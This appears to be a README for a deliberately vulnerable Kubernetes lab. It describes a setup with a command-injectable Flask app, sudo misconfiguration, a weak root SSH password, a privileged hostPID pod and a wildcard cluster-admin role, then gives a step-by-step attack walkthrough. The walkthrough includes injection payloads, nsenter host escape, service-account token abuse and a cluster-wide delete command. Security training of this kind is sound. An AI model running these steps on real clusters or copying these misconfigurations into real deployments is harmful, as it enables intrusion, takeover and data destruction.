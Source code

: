 # Vulnerable Kubernetes Cluster Scenario

This project sets up a Kubernetes cluster environment designed to demonstrate a multi-step attack path, illustrating common vulnerabilities and misconfigurations.

**Scenario Goal:** Deploy a cluster with intentional vulnerabilities, allowing an attacker to move from an exposed web service to full cluster compromise.

**Architecture:**

*   **Pod 1 (`pod1-webapp`)**:
    *   Runs a Flask web application accessible from outside the cluster (via NodePort).
    *   Vulnerable to **Command Injection** via a `/ping` endpoint.
    *   Runs as `appuser`, but has `sudo NOPASSWD` configured for `/usr/bin/python3`, enabling **Privilege Escalation** within the container.
    *   Network Policy allows egress *only* to Pod 2 on port 22.
*   **Pod 2 (`pod2-ssh`)**:
    *   Runs an SSH server, accessible *only* from Pod 1 (via ClusterIP service and Network Policy).
    *   Allows root login via SSH with a **weak password** (`root:password123`).
    *   Runs as a **privileged container** (`securityContext.privileged: true`) and with `hostPID: true`, enabling **Pod Escape / Container Breakout**.
    *   Uses a `ServiceAccount` (`cluster-admin-sa`) bound to a `ClusterRole` (`cluster-admin-role`) with overly permissive `* * *` permissions, enabling **Cluster Takeover**.
*   **Network Policies**: Enforce the intended communication flow: External -> Pod 1 -> Pod 2.

## Prerequisites

*   Docker installed and running.
*   `kubectl` installed.
*   A running Kubernetes cluster (e.g., Docker Desktop Kubernetes, Minikube, OrbStack, k3d, etc.). Ensure `kubectl` is configured to point to your target cluster.

## Setup Instructions

1.  **Clone the Repository (if applicable):**
    ```bash
    # git clone <repository-url>
    # cd <repository-directory>
    ```

2.  **Build Docker Images:**
    Build the images for the two pods locally.
    ```bash
    docker build -t vulnerable-webapp:latest pod1-webapp-src/
    docker build -t ssh-server:latest pod2-ssh-server-src/
    ```
    *(Note: If your Kubernetes cluster doesn't automatically use your local Docker daemon's images (e.g., a remote cluster), you would need to push these images to a registry accessible by the cluster and update the image names in the `k8s/*.yaml` files.)*

3.  **Deploy to Kubernetes:**
    Apply all the Kubernetes manifest files located in the `k8s` directory.
    ```bash
    kubectl apply -f k8s/
    ```

4.  **Verify Deployment:**
    Check that the pods are running and the services are created.
    ```bash
    kubectl get pods -o wide
    kubectl get services
    ```
    You should see `pod1-webapp-<hash>` and `pod2-ssh-<hash>` pods in the `Running` state. Note the NodePort assigned to `pod1-webapp-service` (e.g., `3xxxx`).

## Exploitation Path

1.  **Access Web App (Pod 1):**
    Open your browser and navigate to `http://<NODE_IP>:<NODE_PORT>` or `http://localhost:<NODE_PORT>` if using Docker Desktop/OrbStack. (Replace `<NODE_PORT>` with the port noted in step 4 of Setup).

2.  **Command Injection (Pod 1):**
    Use the "Host to ping" input or manipulate the URL to inject commands.
    *   Example: `http://localhost:<NODE_PORT>/ping?host=127.0.0.1; id`
    *   Goal: Get command execution as the `appuser`. Try `ls /`, `whoami`, `cat /etc/passwd`.

3.  **Privilege Escalation (Pod 1):**
    Abuse the `sudo NOPASSWD` configuration for python3. Inject a command that uses `sudo python3` to execute code as root within the container.
    *   Example Payload for URL: `127.0.0.1; sudo python3 -c 'import os; os.system("id")'`
    *   Get a root shell: `127.0.0.1; sudo python3 -c 'import os; os.system("/bin/bash")'` (Note: This interactive shell might be tricky via web requests, often you'd establish a reverse shell here).

4.  **Network Discovery (Find Pod 2):**
    From your root shell/command execution on Pod 1, find Pod 2's internal IP address.
    *   The internal service name is `pod2-ssh-service`. DNS should resolve this within the cluster.
    *   Try pinging it: `ping pod2-ssh-service`
    *   Or use network scanning tools (if installed or installable): `apt-get update && apt-get install -y iproute2 net-tools nmap; ip a; nmap <CLUSTER_IP_RANGE>` (Find range via `ip a`).
    *   Alternatively, check environment variables or service discovery mechanisms if available. The service IP was listed by `kubectl get svc` as well (`pod2-ssh-service` `CLUSTER-IP`). Let's assume it's `192.168.194.218` based on earlier output.

5.  **Lateral Movement (SSH to Pod 2):**
    SSH into Pod 2 using the weak root credentials (`root` / `password123`). You might need to install an SSH client on Pod 1 first (`apt-get update && apt-get install -y openssh-client`).
    ```bash
    # From root shell on Pod 1
    ssh root@<POD_2_IP_or_SERVICE_NAME> 
    # Enter password: password123
    ```
    You should now have a root shell on Pod 2.

6.  **Pod Escape / Container Breakout (From Pod 2):**
    Pod 2 is running as privileged (`privileged: true`) and with `hostPID: true`. This allows accessing host resources. There are many techniques, here are a few concepts:
    *   **Access Host Processes:** Since `hostPID` is true, `ps aux` inside the container shows *host* processes. You might find sensitive information or processes to interact with.
    *   **Access Host Filesystem:** Privileged containers can often mount host devices (`fdisk -l` might show host disks) or find ways to access the host filesystem, potentially via `/proc/<host_pid>/root/`.
    *   **Create Privileged Host Pod:** Use the mounted service account token (see next step) to create a new pod directly on the host network/namespace with host mounts.
    *   **Execute Command on Host:** Find the host's PID 1 (init process) via `ps aux`, then use `nsenter` to enter the host's namespaces and execute commands: `nsenter --target <HOST_PID_1> --mount --uts --ipc --net --pid <command>`.

7.  **Cluster Takeover (From Pod 2):**
    The ServiceAccount token for `cluster-admin-sa` is mounted into Pod 2 (usually at `/var/run/secrets/kubernetes.io/serviceaccount/token`). This account is bound to `cluster-admin-role` with `* * *` permissions.
    *   Install `kubectl` inside Pod 2 (`apt-get update && apt-get install -y kubectl`).
    *   Use the mounted token to interact with the Kubernetes API as cluster-admin:
        ```bash
        # Inside Pod 2 shell
        TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
        CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
        APISERVER=https://kubernetes.default.svc # Default internal API server address

        # Test access
        kubectl --server=$APISERVER --token=$TOKEN --certificate-authority=$CACERT get nodes
        kubectl --server=$APISERVER --token=$TOKEN --certificate-authority=$CACERT get secrets --all-namespaces 
        # You now have full control over the cluster!
        ```
    *   Simulate shutdown: `kubectl --server=$APISERVER --token=$TOKEN --certificate-authority=$CACERT delete deployment --all --all-namespaces` (Don't run this unless intended!)

## Cleanup

To remove all the resources created by this scenario:
```bash
kubectl delete -f k8s/
```
You may also want to remove the Docker images:
```bash
docker rmi vulnerable-webapp:latest ssh-server:latest
```
